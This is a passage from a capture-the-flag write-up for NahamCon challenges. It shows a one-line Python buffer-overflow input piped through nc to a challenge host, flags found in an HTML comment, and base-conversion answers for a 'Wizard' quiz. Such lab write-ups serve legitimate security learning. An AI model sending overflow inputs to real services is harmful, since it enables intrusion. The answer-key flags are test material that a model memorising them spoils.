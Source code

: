 looking at c code we know the buffer size=2048 so after finding padding=8 we can give any input > 2056 and it will give flag
```
python -c "print('a'* 2056)" | nc challenge.nahamcon.com 32216
```

```
flag{de8b6655b538a0bf567b79a14f2669f6}  
```

### Read The Rules:

_Please follow the rules for this CTF!_


Connect here: [Read The Rules](https://ctf.nahamcon.com/rules)

flag is in source code

```html
<!-- Thank you for reading the rules! Your flag is: -->
<!-- flag{90bc54705794a62015369fd8e86e557b} -->
```

```flag{90bc54705794a62015369fd8e86e557b}```

### Wizard:

_You have stumbled upon a wizard on your path to the flag. You must answer his questions!_

Connect with:

`nc challenge.nahamcon.com 32201`

it gives us the questions and we have to give input the answers

First Question: What is the ASCII plaintext corresponding to this binary string?
```
010110100110010101110010011011110111001100100000001001100010000001001111011011100110010101110011
```
From Binary: "Zeros & Ones"

Second Question: What is the ASCII plaintext corresponding to this hex string?
```
4f6820776f77777721204261736520313020697320636f6f6c20616e6420616c6c2062757420486578787878
```
From Hex: "Oh wowww! Base 10 is cool and all but Hexxxx"

Third Question: What is the ASCII plaintext corresponding to this octal string?
(HINT: octal -> int -> hex -> chars)
```
535451006154133420162312701623127154533472040334725553046256234620151334201413347444030460563312201673122016730267164
```
- Octal to HexaDecimal
- From Hex

"We can represent numbers in any base we want"

Fourth Question: What is the ACII representation of this integer?
(HINT: int -> hex -> chars)
```
8889185069805239596091046045687553579520816794635237831028832039457
```
- Desimal to HexaDecimal
- From Hex

"This is one big 'ol integer!"

```